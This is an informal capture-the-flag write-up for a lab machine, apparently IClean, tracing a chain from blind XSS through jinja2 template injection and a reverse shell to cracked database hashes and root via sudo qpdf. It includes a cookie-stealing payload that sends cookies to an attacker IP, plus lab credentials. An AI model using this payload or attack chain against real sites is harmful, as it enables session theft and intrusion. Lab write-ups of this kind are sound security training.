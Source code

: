 Started with a nmap scan
```
22 OpenSSH 8.9p1
80 Apache 2.4.52 and werzeug 2.3.7 python/3.10.12
```
Going to the website it has a domain that nmap did not pickup on `http://capiclean.htb` so now we can see the website there is a login forum and a place to get quotes and that's it the quote is vulnerable to blind xss but not in the email pram in the `service` pram so we can steal cookies because its looked at by there admin team so if we use this payload `<img src=x onerror=fetch('http://10.10.16.4:81/?c='+document.cookie');>` and standup are python web server and we got the cookie `session=cookie` and we put this cookie in are web browser and now we have access to the site if we go to the `/dashboard` and we get some more pages and we can generate somethings we know the webserver has python on it so we need to test for SSTI took a little bit but first we need to generate the invoice and then we need to make a QR code for it and then input the invoice number in the `qr_link` and this is the part that is vulnerable to SSTI if we put `{{7*7}}` and we get `49` on it in the `img` tag so its running `jinja2` testing some payloads one I used to bypass WAF worked and we got `www-data` back we can use metasploit to get a reverse shell and then looking at the `app.py` we get database creds `iclean:pxCsmnGLckUb` and we can login into the database now and dump the creds from the users table and we got 2 users hash and its hashed in `sha2-256` and we cracked `consuela` hash to `simple and clean` now we can SSH into the host so we can get a better shell and when we run `sudo -l` we have sudo priv on a binary `/usr/bin/qpdf` to exploit this and get the root flag we can do this `sudo /usr/bin/qpdf --qdf --add-attachment /root/root.txt -- --empty ./root.txt` and then we can `cat root.txt` and now we have the flag  